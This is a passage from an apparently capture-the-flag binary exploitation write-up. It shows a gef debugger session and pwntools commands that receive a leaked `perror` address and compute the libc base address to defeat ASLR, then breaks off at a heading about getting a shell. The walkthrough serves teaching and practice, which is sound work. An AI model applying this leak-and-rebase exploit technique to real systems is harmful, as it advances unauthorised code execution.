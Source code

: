 The left pane should have exited _normally_:

```
gef➤  c
Continuing.
[Attaching after process 6079 fork to child process 7377]
[New inferior 2 (process 7377)]
[Detaching after fork from parent process 6079]
[Inferior 1 (process 6079) detached]
[Inferior 2 (process 7377) exited normally]
gef➤
```

In the right pane type the following to get and print the output:

```
_ = p.recvline()
_
```

Output:

```
b'> \xf0\xb4\x9f\xabr\x7f: Success\n'
```

Got the address of `perror`!  Now lets get libc:

```
perror=(int(_.strip()[:-9][-6:][::-1].hex(),16))
hex(perror)
libcbase = perror - libc.symbols['perror']
hex(libcbase)
```

Output:

```
>>> perror=(int(_.strip()[:-9][-6:][::-1].hex(),16))
>>> hex(perror)
'0x7f72ab9fb4f0'
>>> libcbase = perror - libc.symbols['perror']
>>> hex(libcbase)
'0x7f72ab996000'
```

The address of `perror` (`0x7f72ab9fb4f0`) should match `perror` from the GOT above (`[0x563df76f1fc0] perror@GLIBC_2.2.5  →  0x7f72ab9fb4f0`).


#### Use `libc` to to get a shell
